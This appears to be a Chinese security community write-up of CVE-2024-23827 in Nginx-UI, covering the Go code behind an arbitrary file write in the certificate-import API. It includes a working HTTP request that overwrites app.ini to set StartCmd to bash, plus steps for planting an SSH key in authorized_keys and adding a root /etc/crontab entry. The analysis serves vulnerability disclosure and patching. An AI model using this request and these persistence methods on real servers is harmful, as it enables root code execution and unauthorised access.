

# Nginx-UI 任意文件写入漏洞分析与利用思路 (CVE-2024-23827) - 先知社区

Nginx-UI 任意文件写入漏洞分析与利用思路 (CVE-2024-23827)

- - -

# 漏洞描述

Nginx-UI is a web interface to manage Nginx configurations. The Import Certificate feature allows arbitrary write into the system. The feature does not check if the provided user input is a certification/key and allows to write into arbitrary paths in the system. It's possible to leverage the vulnerability into a remote code execution overwriting the config file app.ini. Version 2.0.0.beta.12 fixed the issue.  
Nginx UI 是一个用于管理 Nginx 配置的 web 界面。其中导入证书功能，允许任意写入文件。该功能不检查提供的用户输入是否是证书/密钥，并允许写入系统中的任意路径。通过覆盖配置文件 app.ini，有可能利用该漏洞进行远程代码执行。2.0.0.beta.12 版本修复了该问题

# 影响版本

<v2.0.0-beta.12

# 安全版本

v2.0.0-beta.12

# 漏洞分析

## 路由分析

通过漏洞描述我们可以知道漏洞点是位于导入证书功能，搭建好靶场后，进入 web 页面，导入抓包。获取路由。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204224603-1ed52d6e-c36c-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204224615-26107b06-c36c-1.png)  
查看代码，可以发现系统使用 gin 框架，gin 框架的路由定义可以参考以下例子，是通过绑定一个相应请求到路由上，当访问这个路由时，就会会执行相应的函数。

```plain
package main

import (
    "github.com/gin-gonic/gin"
)

func main() {
    // 创建一个默认的路由引擎
    r := gin.Default()

    // 绑定一个GET请求到 /hello 路由上，当访问这个路由时，会执行相应的函数
    r.GET("/hello", func(c *gin.Context) {
        // 使用Context的String方法返回响应码200和字符串"Hello World"
        c.String(200, "Hello World")
    })

    // 运行HTTP服务器，默认监听在0.0.0.0:8080
    r.Run()
}
```

这里直接进行关键词搜索我们可以到 api 路径下，`r.Group("/api")`是用来创建一个路由组的方法。其中`g := root.Group("/", authRequired(), proxy())`的`authRequired()`和`proxy()`是作为中间件应用到这个路由组的，`authRequired()`从名字可以看出用于验证用户身份。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204225130-e1907232-c36c-1.png)

查看`authRequired()`函数代码，具体为从请求头中读取`Authorization`，如果为空读取 X-Node-Secre，然后使用`CheckToken`方法进行查询。

```plain
func authRequired() gin.HandlerFunc {
    return func(c *gin.Context) {
        abortWithAuthFailure := func() {
            c.AbortWithStatusJSON(http.StatusForbidden, gin.H{
                "message": "Authorization failed",
            })
        }

        token := c.GetHeader("Authorization")
        if token == "" {
            if token = c.GetHeader("X-Node-Secret"); token != "" && token == settings.ServerSettings.NodeSecret {
                c.Set("NodeSecret", token)
                c.Next()
                return
            } else {
                c.Set("ProxyNodeID", c.Query("x_node_id"))
                tokenBytes, _ := base64.StdEncoding.DecodeString(c.Query("token"))
                token = string(tokenBytes)
                if token == "" {
                    abortWithAuthFailure()
                    return
                }
            }
        }

        if model.CheckToken(token) < 1 {
            abortWithAuthFailure()
            return
        }

        if nodeID := c.GetHeader("X-Node-ID"); nodeID != "" {
            c.Set("ProxyNodeID", nodeID)
        }

        c.Next()
    }
}
```

这里`CheckToken`为从数据库中查找 token，虽然从后续的`GenerateJWT`方法可以看出使用 JWT 认证，但其中的 JwtSecret 在配置文件中定义 (不存在硬编码问题），并且`GenerateJWT`方法创建 JWT 后执行存进数据库操作，并且认证也是进行数据库取值比对，这里的验证未发现绕过操作，漏洞属于需要认证的后台漏洞。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204224634-31793c9e-c36c-1.png)

## 漏洞点分析

从上面的/api/路由组中我们可以发现`certificate.InitCertificateRouter(g)`函数，注册了一系列与证书相关的路由和处理器，其中就存在`cert`路由以及处理器`AddCert`。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204224649-3a385de2-c36c-1.png)

查看`AddCert`函数代码可以发现它是一个 Gin 的 HTTP 处理函数，用于添加一个新的证书。首先定义一个匿名结构体，用于解析和验证传入的 JSON 请求体。其中的证书路径和证书密钥路径，属于必填，用于后续的创建文件，然后初始化一个证书模型对象接收传入的 json 参数。接收成功后执行`content.WriteFile()`写入文件。

```plain
func AddCert(c *gin.Context) {
    var json struct {
        Name                  string `json:"name"`
        SSLCertificatePath    string `json:"ssl_certificate_path" binding:"required"`
        SSLCertificateKeyPath string `json:"ssl_certificate_key_path" binding:"required"`
        SSLCertificate        string `json:"ssl_certificate"`
        SSLCertificateKey     string `json:"ssl_certificate_key"`
        ChallengeMethod       string `json:"challenge_method"`
        DnsCredentialID       int    `json:"dns_credential_id"`
    }
    if !api.BindAndValid(c, &json) {
        return
    }
    certModel := &model.Cert{
        Name:                  json.Name,
        SSLCertificatePath:    json.SSLCertificatePath,
        SSLCertificateKeyPath: json.SSLCertificateKeyPath,
        ChallengeMethod:       json.ChallengeMethod,
        DnsCredentialID:       json.DnsCredentialID,
    }

    err := certModel.Insert()

    if err != nil {
        api.ErrHandler(c, err)
        return
    }

    content := &cert.Content{
        SSLCertificatePath:    json.SSLCertificatePath,
        SSLCertificateKeyPath: json.SSLCertificateKeyPath,
        SSLCertificate:        json.SSLCertificate,
        SSLCertificateKey:     json.SSLCertificateKey,
    }

    err = content.WriteFile()

    if err != nil {
        api.ErrHandler(c, err)
        return
    }

    c.JSON(http.StatusOK, Transformer(certModel))
}
```

查看`WriteFile`() 函数，从名字就可以知道这是一个进行写入文件操作的函数。可以看到会先创建创建存放 SSL 证书的目录和存放 SSL 证书密钥的目录，如果目录已存在就不会进行创建操作。如何将内容写入文件。

```plain
func (c *Content) WriteFile() (err error) {
    // MkdirAll creates a directory named path, along with any necessary parents,
    // and returns nil, or else returns an error.
    // The permission bits perm (before umask) are used for all directories that MkdirAll creates.
    // If path is already a directory, MkdirAll does nothing and returns nil.

    err = os.MkdirAll(filepath.Dir(c.SSLCertificatePath), 0644)
    if err != nil {
        return
    }

    err = os.MkdirAll(filepath.Dir(c.SSLCertificateKeyPath), 0644)
    if err != nil {
        return
    }

    if c.SSLCertificate != "" {
        err = os.WriteFile(c.SSLCertificatePath, []byte(c.SSLCertificate), 0644)
        if err != nil {
            return
        }
    }

    if c.SSLCertificateKey != "" {
        err = os.WriteFile(c.SSLCertificateKeyPath, []byte(c.SSLCertificateKey), 0644)
        if err != nil {
            return
        }
    }

    return
}
```

# 文件写入利用思路

这里我们知道我们可以将任意内容写入服务器中任意文件，也可以创建新的文件，不过这里需要注意一个点，如果是新创建的文件权限为 0644 是不具备执行权限的。这里的权限为所有者允许读写，而所属组成员和其他用户仅读取。所以这里我们需要关注于本机上已经存在的文件。这里先分析漏洞发现者的利用思路。

## 利用程序配置文件

在前面查看 app.ini 配置文件时，我们可以发现一个参数`StartCmd`。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204224717-4b00d8ac-c36c-1.png)

通过搜索`StartCmd`参数可以发现，其在`NewPipeLine`函数中被执行。分析代码可以发现`NewPipeLine`函数是启动一个新的伪终端的操作。通看上下文代码可以知道作者写这里的作用是为了实现一个在 Web 浏览器中创建一个类似命令行的界面，让用户能够远程执行和控制一个 shell 会话。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204224733-542578f2-c36c-1.png)

这里`StartCmd`参数中的值会被`c := exec.Command(settings.ServerSettings.StartCmd)`执行，所以我们只需要将我们想要执行的名通过`StartCmd`参数写入 app.ini 配置文件，app,ini 为程序启动的配置文件，在程序重新启动时便可以执行我们想要的命令。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204224752-5fe670c4-c36c-1.png)

这里的利用思路很巧妙，不过缺点在于需要重新启动程序。这里也可以利用常用的文件写入的利用思路。

```plain
POST /api/cert HTTP/1.1
Host: 127.0.0.1:9000
Content-Length: 980
Accept: application/json, text/plain, */*
Authorization: <JWT>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,fr;q=0.7
Connection: close

{"name":"poc","ssl_certificate_path":"/root/nginx/app.ini","ssl_certificate_key_path":"/tmp/test2","ssl_certificate":"[server]\r\nHttpHost          = 0.0.0.0\r\nHttpPort          = 9000\r\nRunMode           = debug\r\nJwtSecret         = 504f334b-ac68-4fbc-9160-2ecbf9e5794c\r\nNodeSecret        = 139ab224-9e9e-444f-987e-b3a651175ad5\r\nHTTPChallengePort = 9180\r\nEmail             = props@pros.com\r\nDatabase          = database\r\nStartCmd          = bash\r\nCADir             = dqsdqsd\r\nDemo              = false\r\nPageSize          = 10\r\nGithubProxy       = dqsdqfsdfsdfsdfsd\r\n\r\n[nginx]\r\nAccessLogPath =\r\nErrorLogPath  =\r\nConfigDir     =\r\nPIDPath       =\r\nTestConfigCmd =\r\nReloadCmd     =\r\nRestartCmd    =\r\n\r\n[openai]\r\nBaseUrl = \r\nToken   =\r\nProxy   =\r\nModel   = \r\n\r\n[casdoor]\r\nEndpoint     =\r\nClientId     =\r\nClientSecret =\r\nCertificate  =\r\nOrganization =\r\nApplication  =\r\nRedirectUri  =","ssl_certificate_key":"test2"}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204224819-6fd1dd20-c36c-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204224841-7d182ba6-c36c-1.png)

## 写入 SSH 公钥免密登陆

这里也可以通过写入写入 SSH 公钥免密登陆，首先我们需要先在客户端生成 SSH 密钥对，可以使用 `ssh-keygen` 命令

```plain
ssh-keygen -t rsa -b 4096
```

此时会在在 `~/.ssh/` 目录下生成两个文件，`id_rsa`（私钥）和 `id_rsa.pub`（公钥）。我们只需要将生成的公钥（`id_rsa.pub`）写入到服务器的 `~/.ssh/authorized_keys` 文件中，便可以直接通过 ssh 登陆到服务器。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204224859-879256e2-c36c-1.png)  
成功写入 SSH 公钥  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204225510-64bdc3f8-c36d-1.png)  
成功登陆服务器  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204224921-94e8fda0-c36c-1.png)

## 计划任务

Linux 计划任务是一种在 Linux 操作系统中自动执行任务的方法，`cron`是一个守护进程，它根据一个称为 crontab（cron table）的配置文件运行。我们可以通过`crontab`命令编辑他们的个人计划任务列表，也可以直接编辑系统中自带的计划任务脚本。

-   `/etc/crontab`：系统的主 crontab 文件。
    
-   `/etc/cron.d/`：一个目录，可以包含附加的 crontab 配置文件。
    
-   `/etc/cron.daily/`：存储每天执行一次的脚本。
    
-   `/etc/cron.hourly/`：存储每小时执行一次的脚本。
    
-   `/etc/cron.weekly/`：存储每周执行一次的脚本。
    
-   `/etc/cron.monthly/`：存储每月执行一次的脚本。
    

当然每个用户也可以有自己的 crontab 文件，这些文件通常存储在`/var/spool/cron/`目录中，在当前漏洞中我们新建的文件没有执行权限，所以优先直接更改系统自带的计划任务。我们可以直接更改系统的主 crontab 文件`/etc/crontab`。打开格式如下，我们只需要在最新一行写上计划任务就行，如下。

```plain
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
* * * * * root whoami >> /var/log/whoami.log 2>&1
```

其中`* * * * *`：时间和日期字段，每个星号代表一个时间单位。从左到右分别是：分钟、小时、一月中的日、月份、一周中的日。星号 (`*`) 表示每个时间单位的每个可能的值。而`root`表示任务将以 `root` 用户的权限执行。

将以上命令转换成 json 字符串传输进行。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204224946-a3c7446c-c36c-1.png)

成功写入文件  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204225012-b2e2604e-c36c-1.png)

成功执行命令  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204225036-c1bf8bd2-c36c-1.png)

# 总结

该漏洞是对于用户的输入是否是证书/密钥，写入系统中的文件路径。未经检查造成的任意文件写入漏洞。该漏洞存在创建文件操作，但文件无执行权限，并且对于 golng 这种**编译型语言**。没有办法上传 webshell，所以只能通过上传或文件写入加其他利用达到 RCE 效果。

# 修复建议

将组件 Nginx-UI 升级至 v2.0.0-beta.12 及以上版本

# 来源

[https://avd.aliyun.com/detail?id=AVD-2024-23827](https://avd.aliyun.com/detail?id=AVD-2024-23827)
